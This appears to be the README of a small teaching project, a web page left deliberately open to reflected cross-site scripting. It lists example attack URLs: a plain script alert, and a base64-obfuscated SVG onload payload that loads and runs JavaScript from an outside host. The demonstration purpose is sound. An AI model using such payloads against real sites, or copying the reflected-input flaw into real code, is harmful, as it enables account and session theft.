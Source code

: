 # XSS-Demo

This is a simple page with some example content (borrowed from W3Schools), that has a deliberate Cross Site Scripting vulnerability. It reflects the URL down into HTML.

The barebones page can be seen using rawgit at: https://cdn.rawgit.com/sdclibbery/XSS-Demo/1.0/index.html

A simple XSS example using the page: https://cdn.rawgit.com/sdclibbery/XSS-Demo/1.0/index.html?%3Cscript%3Ealert(1)%3C/script%3E

Or more fun: https://cdn.rawgit.com/sdclibbery/XSS-Demo/1.0/index.html?%3Csvg/onload=eval(atob(%60JC5nZXRTY3JpcHQoJ2h0dHBzOi8vZGluaXNjcnV6LmdpdGh1Yi5pby9YU1MtUG9jcy9wb2NzL2RhbmNlLXhzcy5qcycp%60))%3E
(With thanks to Dinis Cruz http://blog.diniscruz.com/ for the payload :-)
